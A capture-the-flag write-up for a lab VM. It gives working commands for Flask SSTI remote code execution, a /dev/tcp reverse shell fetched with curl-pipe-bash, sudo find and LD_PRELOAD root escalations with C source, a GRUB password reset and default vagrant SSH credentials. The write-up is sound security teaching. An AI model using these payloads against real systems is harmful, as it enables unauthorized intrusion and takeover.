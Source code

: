 # Th3HackerNewsBdarija box Writeup

## Introduction 

Yo 
Before starting this writeup, we would like to thank Thehackernewsbdarija community and thank the staff that created this box.

![image](https://c.tenor.com/G0PWi59OVk0AAAAM/mr-bean-delicious.gif)

And i'm happy because i won this competition

![happy](https://c.tenor.com/aSW9ZfIIC64AAAAC/shaq-shimmy.gif)

Description [Moroccan Darija] : https://www.facebook.com/Th3HackerNewsBdarija/posts/219555037030078

Download link : https://drive.google.com/file/d/1ipYcoAsZ-uTrSpFcu4s0oo0OmBKqHwgk/view?usp=sharing

Enjoy!

## Writeup

### Web 
let's find the ip for the machine, i used netdiscover but you are free to use nmap or your router page 

```bash
netdiscover -r 192.168.1.1/24
```

I started by fuzzing on parameters to detect any parametes

![bigdd](https://imgur.com/aB2aOjP.png)

After getting the "search" parameter we can remark that it is infected by a "Flask SSTI2" vulnerability 

`http://192.168.1.108/?search={{3 * 3}}`

![pp](https://imgur.com/xFVJDr0.png)

We can exploit that to get an rce

`http://192.168.1.108/?search={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

![bigppp](https://imgur.com/yqqngBi.png)

Getting a reverse shell
    localhost :

```bash
echo "/bin/bash -l > /dev/tcp/192.168.1.109/4444 0<&1 2>&1" > payload.sh
python -m SimpleHTTPServer
nc -nlvp 4444
```

    Server : http://192.168.1.108/?search={{request.application.__globals__.__builtins__.__import__('os').popen('curl http://192.168.1.109:8000/payload.sh | bash').read()}}

and we got a shell : 

![ppd](https://i.imgur.com/QWpoHLI.png)

### Pwn 

After getting a shell as c3p0 we can see an executable "hackernews"

![bigpp](https://i.imgur.com/gULwJX9.png)

This executable asks for a password 

![ON0WT2w.png](https://i.imgur.com/ON0WT2w.png)

We can simply find the password by using strings 

![pwn](https://imgur.com/GF8XlNx.png)

By submitting the file we get an encoded password 

![pp](https://i.imgur.com/4P3761I.png)

The encoded password is encoded with Vigenere cipher with decode.fr

![hh](https://imgur.com/8IWQ4BL.png)

`user.txt : thnb{m4b9a_w4l0_4lm0jt4h1D}`

### Privelege esculation

Using `sudo -l` to check user priveleges, we can see that `c3p0` user can execute the find command as root user.

![find](https://i.imgur.com/2xhEgge.png)

We can exploit that using gftobins 

![sudo](https://imgur.com/WjO72Kg.png)

```bash
sudo find . -exec /bin/sh \; -quit
```

Eventually after using this command we can get a shell as root and read the flag

![root](https://imgur.com/feER4s4.png)

`root flag : thnb{br4v0_4kh4y_lH4ck3r_y0u_d1D_1t}`

### Privelege esculation 2

There's another technique for privilige escalation by exploiting the environment variable “LD_Preload”

As we can see by typing sudo -l we detected the environment variable

![ld](https://i.imgur.com/K5mSsMI.png)

Let’s create a C program file inside /tmp directory

![sh](https://i.imgur.com/CK0HxPt.png)

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {

unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");

}
```

![sh](https://i.imgur.com/fBG2766.png)

Let's compile it and execute it 

```Bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so find
id
whoami
```

![ld](https://i.imgur.com/00Ba4Nc.png)

And we are root! 

## Other techniques

### Ubuntu Recovering Password 

We can get root by using Ubuntu recovering password

Once you boot your machine keep holding on `SHIFT` to enter The grub menu

![ub](https://i.imgur.com/TTvYvdX.png)

Then press on `E` on your keyboard to edit the grub panel 

![ub](https://i.imgur.com/ejJ3irz.png)

Find any line starting with “Linux” and change access from read-only to read-write by just replacing ro `console=tty1 console=ttyS0` to `rw init=/bin/bash`

![pp](https://i.imgur.com/UwnUmmI.png)

To save the changes and to boot, press `Ctrl-x` and now booting with both read and write access into a Linux kernel

![popp](https://i.imgur.com/VI2VwE8.png)

Type passwd and enter a new password 

![bip](https://i.imgur.com/DZU7WsT.png)

Reboot your machine and login with root and the new password that you created

![peed](https://i.imgur.com/VNLz4T6.png)

And now we have access to both flags

![user](https://i.imgur.com/Upxz1AX.png)

![root](https://i.imgur.com/YhPJunl.png)

### Vagrant SSH 

By default in a box, vagrant user is enabled in the ssh config

```Bash
User vagrant
IdentityFile ~/.ssh/vagrant
````

Let's try to log in with the `USER:PASS = vagrant:vagrant`
 
 ```Bash
 ssh vagrant@192.168.1.109
 ```

It works

![ssh](https://i.imgur.com/yhXFTtu.png)

let's run `sudo -l` to check user priveleges

![ssh](https://i.imgur.com/U98OK4R.png)

We can see that we can run any command as root

Let's run `sudo -s` and we got root 

![ssh](https://i.imgur.com/IJ0zluF.png)


# Conclusion 

I hope you like the writeup 
Good Hacking ! Peace
